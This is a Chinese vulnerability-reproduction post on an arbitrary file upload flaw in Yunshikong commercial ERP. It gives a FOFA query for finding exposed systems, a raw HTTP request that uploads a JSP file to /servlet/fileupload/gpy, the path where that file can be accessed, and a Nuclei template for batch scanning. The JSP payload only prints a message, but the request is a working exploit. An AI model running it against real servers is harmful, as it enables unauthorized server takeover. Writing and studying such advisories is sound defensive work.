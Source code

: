 # 原创
：  漏洞复现--云时空商业ERP文件上传

# 漏洞复现--云时空商业ERP文件上传

## 免责声明：

**文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行负责**

### 一：漏洞描述

云时空商业ERP以大型集团供应链系统为支撑，是基于互联网技术的多渠道模式营销服务管理体系，可以帮助您整合线上和线下交易模式，覆盖企业经营管理应用各个方面。该产品存在任意文件上传漏洞，攻击者可通过此漏洞获取服务器权限。

### 二：漏洞影响版本

不详

### 三：网络空间测绘查询

fofa:<br/> `app="云时空社会化商业ERP系统"`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/81bca6fb24cfa34031e830356061aa28.jpeg"/>

### 四：漏洞复现

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/0ad9dc37ac955fdfecb45926f7af2135.jpeg"/><br/> POC:

```
POST /servlet/fileupload/gpy HTTP/1.1
Host:x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=4eea98d02AEa93f60ea08dE3C18A1388
Content-Length: 215

--4eea98d02AEa93f60ea08dE3C18A1388
Content-Disposition: form-data; name="file1"; filename="test.jsp"
Content-Type: application/octet-stream
 
&lt;% out.println("This website has a vulnerability"); %&gt;
--4eea98d02AEa93f60ea08dE3C18A1388--

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/77fa68cfbd0b4e9d762889333857ae05.jpeg"/><br/> 访问/uploads/pics/【返回的日期】/【上传文件名称】<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/bd150ab1848235cf6cd1f544715ad1c4.jpeg"/><br/> 成功解析

### 五：批量验证

```
id: yun-shiKong-Upload

info:
  name: yun-shiKong-Upload
  author: 芝士土拨鼠
  severity: high
  description: 云时空商业ERP以大型集团供应链系统为支撑，是基于互联网技术的多渠道模式营销服务管理体系，可以帮助您整合线上和线下交易模式，覆盖企业经营管理应用各个方面。该产品存在任意文件上传漏洞，攻击者可通过此漏洞获取服务器权限。

requests:
  - raw:
      - "POST /servlet/fileupload/gpy HTTP/1.1\nHost: {{Hostname}}\nUser-Agent: Mozilla/5.0\
        \ (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0\nAccept:\
        \ text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8\n\
        Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2\n\
        Accept-Encoding: gzip, deflate\nConnection: close\nUpgrade-Insecure-Requests:\
        \ 1\nContent-Type: multipart/form-data; boundary=4eea98d02AEa93f60ea08dE3C18A1388\n\
        Content-Length: 213\n\n--4eea98d02AEa93f60ea08dE3C18A1388\nContent-Disposition:\
        \ form-data; name=\"file1\"; filename=\"test.jsp\"\nContent-Type: application/octet-stream\n\
        \ \n&lt;% out.println(\"This website has a vulnerability\"); %&gt;\n--4eea98d02AEa93f60ea08dE3C18A1388--"

    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - fileRealName
      - type: status
        status:
          - 200

```

### 六：修复方案

联系厂家获取漏洞修复补丁
